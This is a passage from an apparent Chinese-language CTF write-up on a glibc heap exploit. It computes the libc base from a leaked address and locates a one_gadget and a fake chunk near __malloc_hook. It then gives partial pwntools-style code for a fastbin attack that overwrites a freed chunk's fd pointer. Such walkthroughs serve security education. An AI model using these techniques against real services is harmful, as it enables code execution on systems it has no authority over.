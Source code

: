 可以看到，该地址距离libc的偏移为0x3c4b78，由此可计算出libc的基地址。

### 覆盖__malloc_hook地址

有了libc的基地址，此时就需要计算执行execve("/bin/sh",0,0)命令的地址和__malloc_hook前符合要求伪造堆块的地址。

可以通过one_gadge获取执行execve("/bin/sh",0,0)命令的偏移

![](12.png)

通过寻找可以发现__malloc_hook前有一个符合要求的地址，该地址距离libc的偏移为0x3c4aed。

![](13.png)

可以根据泄露的libc地址来计算这两个地址
```
libc_base = u64(dump(2, 8)) - 0x3c4b78
fake_heap = libc_base + 0x3c4aed
execve_shell = libc_base + 0x4526a
```

那么最后就是利用fastbin attack来修改__malloc_hook的地址。从上面发现符合要求的伪造堆块地址可以看到，该堆块的size为0x7f，符合fastbin表中的大小。

首先创建一个大小在0x7f-0x80之间的堆块，该堆块会处于chunk4中，然后释放chunk4，再通过编辑chunk2，将chunk4->fd修改为伪造的堆块地址。
```
allocate(0x60)
free(4)
payload = p64(fake_heap)
fill(2, payload)
```
